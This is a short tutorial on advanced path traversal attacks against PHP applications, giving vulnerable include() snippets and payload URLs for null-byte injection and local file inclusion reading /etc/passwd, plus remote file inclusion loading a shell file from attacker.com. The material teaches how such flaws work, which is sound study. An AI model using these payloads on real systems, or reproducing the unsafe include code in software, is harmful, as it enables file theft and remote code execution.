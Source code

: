 ## **Advanced Path Traversal Techniques**

### **1. Path Traversal with Null Byte Injection**

In older PHP versions (prior to PHP 5.3.4), null byte injection (`%00`) could be used to terminate file paths early, bypassing extensions or further file validation.

Vulnerable code:

```php
<?php
$filename = $_GET['file'] . ".php";
include("/var/www/html/" . $filename);
?>

```

Payload:

```
<http://victim.com/vulnerable.php?file=../../../../etc/passwd%00>

```

- `%00` acts as a null byte, terminating the string at `passwd`, ignoring the `.php` extension.

### **2. Remote File Inclusion (RFI) via Path Traversal**

Path Traversal can sometimes lead to Remote File Inclusion (RFI) if user-supplied input allows inclusion of files from remote servers.

Vulnerable code:

```php
<?php
$filename = $_GET['file'];
include("/var/www/html/" . $filename);
?>

```

Payload:

```
<http://victim.com/vulnerable.php?file=http://attacker.com/shell.txt>

```

In this case, the attacker can execute arbitrary code by including a remote malicious file.

### **3. Path Traversal via Local File Inclusion (LFI)**

LFI vulnerabilities can also be exploited with Path Traversal to escalate attacks, such as reading sensitive files like configuration or authentication files.

Payload:

```
<http://victim.com/index.php?page=../../../../etc/passwd>

```
